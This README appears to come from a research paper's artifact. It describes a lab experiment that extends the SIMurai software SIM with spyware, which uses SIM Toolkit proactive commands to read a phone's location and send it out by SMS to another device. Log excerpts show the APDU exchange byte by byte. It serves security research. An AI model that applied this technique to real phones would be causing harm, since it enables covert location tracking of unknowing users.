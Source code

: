 # SIM-based Spyware

This experiment extends SIMurai with SIM-based spyware, corresponding to Section `6.2.1 Simulating SIM Spyware` in our paper. SIM cards can issue commands to the connected smartphone. SIM-based spyware abuses this feature for, e.g., retrieval of the smartphone's location, and leaking that to an outside attacker via SIM-initiated SMS.

## Setup

Please refer to the [Setup 1 README](../../1__setup/1__physical_ue/README.md) for setup and installation instructions. Here, we use the same setup, but extend SIMurai to feature the SIM-based spyware.

## Building and Running

The installation script applies the patch `spyware.patch` that extends SIMurai.

### Running

Please refer to the [Setup 1 README](../../1__setup/1__physical_ue/README.md) for a detailed description of commandline arguments. This script accepts the exact same set of parameters except when running setup 1 using this script, it will use the SIMurai that implements a spyware, instead of the unmodified SIMurai.

### Interpretation of Results

UE1 should detect SIMurai and connect to the network in a manner identical to [setup 1](../../1__setup/1__physical_ue/README.md).

Once the "SIM toolkit" application shows up in the application list on the phone, you can click the item named "Steal location via SMS", then "Run". This will trigger the spyware on SIMurai. This could happen automatically and without interaction of the user, but for the sake of clarity, in the AE we require the 2 clicks.

Once the spyware is activated, SIMurai will proceed by sending a request to obtain location information of UE1. Once the terminal obtains this information and sends it back to SIMurai, another message will be created to send the obtained location information inside an SMS to UE2.

The exchange will look like this (we performed the experiment ourselves and extracted the following log excerpts from `log/simtrace2.log`):
1. SIMurai creates a `PROVIDE LOCAL INFORMATION` proactive command that requests location information from UE1. UE1 uses a `FETCH` APDU to obtain the proactive command:
```
DLGLOBAL INFO => DATA: flags=0x01 (HDR ), 80 12 00 00 0b
 DLINP DEBUG [0] <= osmo_st2_cardem_request_pb_and_tx(pb=12, tx=d0 09 81 03 00 26 00 82 02 81 83 , len=11)
DLINP DEBUG [0] <= osmo_st2_cardem_request_sw_tx(sw=9000)
```
2. UE1 responds with a `TERMINAL RESPONSE` APDU that includes the location information:
```
DLGLOBAL INFO => DATA: flags=0x01 (HDR ), 80 14 00 00 15
 DLINP DEBUG [0] <= osmo_st2_cardem_request_pb_and_rx(pb=14, le=21)
DLGLOBAL INFO => DATA: flags=0x02 (FINAL ), 81 03 00 26 00 02 02 82 81 83 01 00 13 07 99 f9 99 03 e8 00 0a
 DLINP DEBUG [0] <= osmo_st2_cardem_request_sw_tx(sw=9134)
```
3. SIMurai extracts the location information, i.e., `99 f9 99 03 e8 00 0a`, from the `TERMINAL RESPONSE`.
4. SIMurai packages up the location information into a `SEND SHORT MESSAGE` proactive command. UE1 uses a `FETCH` APDU to obtain the proactive command:
```
DLGLOBAL INFO => DATA: flags=0x01 (HDR ), 80 12 00 00 34
 DLINP DEBUG [0] <= osmo_st2_cardem_request_pb_and_tx(pb=12, tx=d0 32 81 03 00 13 00 82 02 81 83 8b 27 01 00 07 91 00 00 00 f1 00 08 1c 00 39 00 39 00 46 00 39 00 39 00 39 00 30 00 33 00 45 00 38 00 30 00 30 00 30 00 41 , len=52)
DLINP DEBUG [0] <= osmo_st2_cardem_request_sw_tx(sw=9000)
```
5. The SMS will take around 30 seconds to get delivered to UE2. Once it is delivered, UE2 will receive the message containing text: `99F99903E8000A` that is the hex string of the raw location information bytes.

SIMurai also logs the exchange in `log/simurai.log` as follows:
```
Proactive command present, overwriting status 9000 to 910B len=0x000B.
Terminal response: parsing.
Terminal response: 810300260002028281830100130799F99903E8000A
Card response: sending SMS with location.
Location information: 99F99903E8000A
Card response: D0328103001300820281838B2701000791000000F100081C00390039004600390039003900300033004500380030003000300041
```
Here we can once again see the `TERMINAL RESPONSE`, followed by a `SEND SHORT MESSAGE` proactive command inserted into the card response to a `FETCH` APDU.

